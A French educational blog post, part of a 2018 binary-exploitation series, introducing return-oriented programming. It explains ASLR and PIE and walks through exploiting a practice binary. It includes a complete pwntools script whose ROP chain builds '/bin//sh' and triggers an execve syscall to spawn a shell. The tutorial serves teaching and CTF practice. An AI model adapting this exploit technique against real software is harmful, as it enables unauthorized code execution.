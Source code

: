 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
slug: "pwn_3of4_saperliropette"
date: 2018-05-09
description: "Introcution au Return Oriented Programming (ROP) et exemple pratique."
---
```


> Petit mot avant de commencer : Ces quatres articles ont donné lieu à une conférence d'introduction au pwn à la HitchHack 2018. La vidéo est disponible (francais uniquement) ici :

[![1, 2, 3, PWNED !](http://img.youtube.com/vi/hmt8M9YLwTg/0.jpg)](https://www.youtube.com/watch?v=hmt8M9YLwTg)

## Route du pwn, troisième  escale, bienvenue à bord !

Hier, le simple buffer overflow et le ret2libc, aujourd'hui, le ROP, ou Return Oriented Programming, et demain... Demain la conquête du monde !!!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

Je vous ai laissé hier sur le ret2libc, qui, vu de loin, consiste à piocher dans la libc les fonctions qui nous intéressent. Sauf que cette attaque n'est pas possible dans le cas où le programme est compilé en statique, et difficilement faisable si l'ASLR est activé. Nous allons aujourd'hui découvrir le ROP qui nous permet de contourner ces protections.

Ca ressemble de plus en plus au jeu du chat et de la souris, so...\
Follow the leader cat !

## Précisions ASLR et PIC :
Avant de commencer, un petit retour sur ces protections parfois floues.

La configuration de l'ASLR est présente dans `/proc/sys/kernel/randomize_va_space`. Elle peut être à 0=désactivée, 1=activée (stack et heap), 2=activée (1 + data). La valeur 2 étant la nouvelle norme en cours d'adoption par les différents systèmes, déjà effective pour la plupart.

L'ASLR laisse donc toute une surface d'attaque non randomisée. Arriva donc ce qu'il devait arriver : des attaques utilisant les sections .data, .got, .plt, ...

Plus d'informations sur les différentes sections et la structure d'un ELF ici : [ELF_format](https://www.cs.stevens.edu/~jschauma/631A/elf.html)

L'ASLR ne suffisant pas, de nouvelles protections ont été mises en place : PIC / PIE (Position Indépendant Code / Exécutable). N'ayant pas encore suffisamment étudié son fonctionnement, je ne vais pas la présenter en détail. Mais l'idée est simple... Et si on randomisait.... TOUT ?!?!?!

Le ROP fonctionne avec un ASLR partiel ou total, mais est contré par cette dernière mesure...

Suite à la prochaine contre contre-mesure ! è.é

## Présentation de la technique :
Return... Oriented... Programming...

Hum hum... Programmer... Avec des... Return ? °^°'

On va profiter du fait que la section .text du programme soit toujours au même emplacement pour piocher plein de petits bouts de code appelés gadgets, et les assembler pour faire notre exploit. L'exploit est donc une suite d'adresses pointant sur de l'assembleur, donc dans l'absolu, on peut tout faire avec. La limite ? Les gadgets qui sont à notre disposition dans le programme...

Même si on "peut tout faire", la stratégie la plus commune reste de faire comme dans l'article 1 où l'on génère un shellcode qui, via un syscall, permet d'exécuter un programme de notre choix.

Une chose importante à relever ici : On a besoin de gadgets. Les gadgets, c'est du code qui ne bouge pas. Les librairies, ca bouge. Donc un programme qui se base sur les librairies aura bien moins de surface d'attaque qu'un programme compilé en statique, qui, lui, contient tout le code qu'il utilise. De même, plus un programme va être volumineux et faire des actions complexes, plus vous avez de chance qu'il y ait des gadgets intéressants. Capich ? Noice !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Maintenant, abordons plus en détail les gadgets voulez-vous ?

Ils doivent tous répondre à un critère majeur : Se terminer par une instruction ret.

C'est ce critère qui rend l'attaque possible. En effet, lorsque l'on va contrôler le pointer d'instructions, on va faire en sorte que le programme exécute un premier gadget, que l'instruction ret finale indique la fin de l'exécution du premier gadget, et fasse revenir sur notre point de départ (la stack, qu'on vient d'overflow), mais une adresse plus loin. Cette adresse sera celle du second gadget et ainsi de suite.

Méfiance tout de même, si votre gadget se termine par un ret, mais contient des instructions qui modifient le flot d'exécution du programme, il risque de casser votre exploit. Donc pas de call, pas de leave, pas de "double ret", pas de bras, et surtout : pas de chocolat.

De nombreux outils permettent de lister les gadgets d'un exécutable, comme ROPgadget, Ropper, XRop, ...

## Elaboration de l'exploit :

Le binaire étudié est téléchargable [ici](/hacking/pwn_3of4_saperliropette/vuln) !

Avant toute chose, on regarde un peu à quoi on s'attaque : x64, compilé en statique, full ASLR. Ok !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

Vous avez l'habitude maintenant, le classique :

Comprendre le fonctionnement du programme, trouver le point de crash, puis l'offset !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Ici encore, on voit que l'on crash sur un ret... Contrôlons-nous RSP ? Oui ! Offset ? 264 !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Petit rappel, ret a pour effet de placer ce vers quoi pointe RSP (donc le dernier élément de la stack), dans RIP. Nous avons donc RIP sous notre contrôle. Donc... RIP !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

On utilise ensuite l'outil ropgadget qui nous offre une superbe ropchain faite à partir de notre programme vulnérable :

```shell
$ ropgadget --binary vuln --ropchain
```

L'output est long (verbeux), je n'en mets qu'une partie :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

On en fait donc un fichier python, notre exploit est donc :


```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

C'est pas beau toute cette automatisation ? Bon, ca ne marche pas à tous les coups, mais quand ca marche, le gain de temps est énorme, surtout en CTF... ;)

On va maintenant l'exploiter :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell ! :D

Petit détail qui tue, on voit ici que $0 (le nom du programme exécuté) vaut "bash", alors que dans notre ropchain, on avait /bin//sh (qui est compris comme /bin/sh). Mais c'est normal, car sur ma machine, /bin/sh est un lien symbolique qui pointe vers bash ! Mon vrai sh est /usr/bin/sh.

> Mais... Ca ne concorde pas avec les exploits précédents ?!

Wouah ! Un qui suit ! Oui, en effet...\
Plus d'informations sur cette étrangeté sur l'article de coupaing Pixis : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

C'est tout pour cette courte introduction au ROP, j'espère qu'elle vous a mindblown comme il se doit. Vous avez désormais quelques cartes en main : BOF / shellcode / ret2libc / ROP / cerveau / ...

C'est pourquoi notre prochaine rencontre se fera autour de l'analyse d'un programme un peu plus complet. Nous allons donc conclure cette série et...

Tout faire péterrrrr ! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

A très vite pour plus de pwn !

